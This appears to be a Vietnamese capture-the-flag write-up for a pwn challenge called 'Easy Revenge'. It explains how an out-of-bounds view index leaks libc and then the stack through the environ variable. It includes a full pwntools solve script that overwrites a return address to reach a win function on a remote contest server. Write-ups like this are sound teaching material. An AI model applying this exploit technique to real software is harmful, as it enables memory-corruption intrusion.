










# Easy Revenge



Bài revenge này đã bật thêm một số sec

ta cùng phân tích chương trình trong ida xem khác biệt gì nhé



Ta thấy giờ không thể nhập số âm như bài `Easy` nữa, tuy nhiên ta thấy số kia đủ to để ta có thể ghi đè đến tận cả Stack. Tuy nhiên giá trị stack luôn luôn thay đổi sau mỗi lần chạy, vậy **LÀM SAO LẤY ĐƯỢC ĐỊA CHỈ STACK ĐỂ GHI ĐÈ**



Tuy nhiên ta thấy hàm view vẫn sử dụng được lỗi `oob` để leak được gì đó.



Do `PIE` tắt nên ta dễ dàng leak được địa chỉ libc, tìm các địa chỉ chia hết cho `80` trước đó thì mình ra được một địa chỉ

Vậy giờ có địa chỉ libc rồi, **LÀM SAO LẤY ĐƯỢC ĐỊA CHỈ STACK ???**

- Sau khi tìm hiểu, mình biết được trong libc sẽ có một địa chỉ của biến `environ`, mà biến `environ` đó sẽ chứa địa chỉ nằm trên stack:
 




```python
#!/usr/bin/python3
from pwn import *
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
environ_addr = libc.symbols['environ']
log.success(f"Libc Environ Address: {hex(environ_addr)}")
```

Qua code trên thì ta thấy được address của biến `environ` cách libc address `0x222200` với `libc.so.6`

Tại sao mình không tìm luôn `p& environ` mà lại viết script làm chi cho mệt ???

Do khi tìm thì gdb chỉ trả về địa chỉ biến `environ` của `ld-linux-x86-64.so.2` chứ không phải `environ` của chúng ta cần tìm



Okey giờ ta chỉ cần tìm địa chỉ `return` rồi ghi đè lên thôi. Tuy nhiên hàm `main` ta thấy không có lệnh `return`:



vậy ta phải tính toán địa chỉ ret ở trong các hàm con rồi thay thế bằng địa chỉ hàm `win` thôi.



ta thấy địa chỉ ta leak được cách `0x150` byte so với địa chỉ ret về hàm main

**Tuy nhiên địa chỉ là ngẫu nhiên nên không phải lúc nào địa chỉ ta cần lấy và chỉnh sửa cũng chia hết cho 80** 

- Mình đã thử cách nhập input từ địa chỉ chia hết cho 80 trước địa chỉ target rồi tuy nhiên chương trình đã thấy bị thay đổi giá trị canary, nên mình đã cho vòng lặp đến khi nào địa chỉ đó chia hết cho 80 rồi đi tiếp. 

- Để dễ trúng hơn thì mình leak cả rbp để nếu địa chỉ chia hết cho 80 nằm ở rbp thì ghi đè luôn:
## Solve script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('./test', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*0x00000000004013a3
        b* 0x4014f9
        b* 0x0000000004013A2
                   
        c
        ''')
        sleep(1)
# b* 0x000000000040145e
while(1):
    if args.REMOTE:
        p = remote('67.223.119.69',5028)
    else:
        p = process([exe.path])
   

    sla(b'create a user.',b'lam')

    # start_offset_search = 0x00007ff000000000
    # users = 0x4036a0
    # id_start = 1758359558379

    sla(b'Input your choice:',b'2')
    slna(b'Input id to view:',-2)
    p.recvuntil(b'Name: ',drop=True)
    leak_libc = u64(p.recvuntil(b'\n',drop = True) + b'\0\0')
    info(hex(leak_libc))
    libc_base = leak_libc - 0x606f0
    info("libc_base " + hex(libc_base))   
    environ = libc_base + 0x222200
    info("environ offset " + hex(environ))   

    id_environ = (environ - 0x4036a0)//80


    byte_need_to_add = environ - (id_environ *80) - 0x4036a0
    info(byte_need_to_add)
    if(byte_need_to_add):
        p.close()   
        continue

        
    sla(b'Input your choice:',b'2')

    slna(b'Input id to view:',id_environ)
    p.recvuntil(b'Name: ',drop=True)
    leak_stack = u64(p.recvuntil(b'\n',drop = True) + b'\0\0')
    info("leak_stack: "+hex(leak_stack))

    ret_offset = leak_stack -0x150
    id_ret = (ret_offset - 0x4036a0)//80
    byte_need_to_add = ret_offset - (id_ret *80) - 0x4036a0
    info("                                  "+ str(byte_need_to_add))
    if(byte_need_to_add > 8):
        p.close()   
        continue
    #GDB()
    sla(b'Input your choice:',b'1')
    slna(b"Input user 's id:",id_ret)
    payload = b''
    payload = payload.ljust(byte_need_to_add,b'a')
    payload += p64(0x4012d6 + 5)
    sla(b"Input user 's name:",payload)


        


    p.interactive()
    # 0x150
    # leak_libc
    # leak_environ

    # p/d x - ((0x4036a0 - x )/80 *80)

    #environ = libc_base + 0x222200
```



Ăn may khi mình connect lên sever một phát ăn ngay

**FLAG**: `KCSC{w0w_y0u_r34lly_c4n_g3t_r3v3ng3}`

